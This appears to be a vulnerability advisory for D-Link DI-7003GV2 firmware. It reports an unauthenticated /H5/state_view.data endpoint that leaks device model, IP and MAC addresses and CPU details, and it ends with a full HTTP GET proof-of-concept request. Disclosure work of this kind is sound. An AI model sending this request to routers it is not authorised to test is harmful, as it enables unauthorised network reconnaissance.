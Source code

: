 # Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：http://www.dlink.com.cn/techsupport/download.ashx?file=7828

# Affected version

DI-7003GV2-24.04.18D1 R(68125)

# Vulnerability description

The D-Link DI-7003GV2 device exposes sensitive system and network information through the unauthenticated `/H5/state_view.data` HTTP endpoint. An attacker on the same network can send a crafted GET request to retrieve critical details, including device model, LAN and WAN IP addresses, MAC addresses, CPU specifications, and interface link states.

# Vulnerability details

The handling function for the `H5/state_view.data` interface is `sub_41E304`.

![图 0](img/a825fcd4122ae1efc1118a40a2dfe9a026a7296fa08307be6112e37299114afc.png)  

The `sub_41E304` function will output sensitive information such as device name, CPU information, and network information.

![图 1](img/ead1c009b2c89baf7c0d342c10952e989fee755c4fbb989e5a7306b95ba10c1b.png)  


# Poc

```http
GET /H5/state_view.data HTTP/1.1
Host: 192.168.140.240
Content-Length: 0
Cache-Control: max-age=0
Origin: http://192.168.140.240
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 Edg/135.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.140.240/login.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive
```

![图 2](img/3c13904a3e0e20c2cb9654c3c0bd610a3efb0f18c6fe293973b9cfeff927158b.png)  
